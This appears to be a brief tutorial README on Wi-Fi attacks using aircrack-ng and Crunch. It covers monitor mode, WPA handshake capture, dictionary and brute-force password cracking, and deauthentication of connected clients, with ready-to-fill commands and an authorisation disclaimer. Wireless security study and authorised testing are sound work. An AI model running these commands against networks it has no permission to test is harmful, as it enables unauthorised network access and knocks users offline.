 # Wi-Fi Attacks Practical Guide

In this guide, we'll explore Wi-Fi attacks, including switching adapters to monitor mode, capturing handshakes, and cracking passwords using aircrack-ng. Please note that attempting these actions on networks without proper authorization is illegal and unethical. This guide is for educational purposes only.

## Prerequisites

Make sure you have the necessary tools installed, including aircrack-ng and Crunch.

```bash
# Install aircrack-ng
sudo apt-get install aircrack-ng

# Install Crunch
sudo apt-get install crunch
```
## Switching Adapters to Monitor Mode
Command:  `sudo airmon-ng start [interface]`

Replace [interface] with your Wi-Fi interface name.

## Capturing Handshakes
Command: `sudo airodump-ng [monitored_interface]`

Replace [monitored_interface] with the interface created in monitor mode.

## Cracking Passwords using aircrack-ng (Dictionary Attack)
Command: `sudo aircrack-ng -w [dictionary_file] -b [BSSID] [capture_file.cap]`

Replace [dictionary_file] with the path to your dictionary file, [BSSID] with the target BSSID, and [capture_file.cap] with the handshake capture file.

## Cracking Passwords using aircrack-ng and Crunch (Brute Force Method)

Create a Wordlist with Crunch: `crunch [min_length] [max_length] -o [output_file]`

Replace [min_length] and [max_length] with the desired password length range.

Command: `sudo aircrack-ng -w [wordlist_file] -b [BSSID] [capture_file.cap]`

Replace [wordlist_file] with the path to your wordlist file.

## Executing a De-authentication Attack

Command: `sudo aireplay-ng --deauth [number_of_deauths] -a [BSSID] -c [client_MAC] [monitored_interface]`

Replace [number_of_deauths], [BSSID], [client_MAC], and [monitored_interface] with the appropriate values.

Remember to use this knowledge responsibly and only on networks for which you have explicit permission.
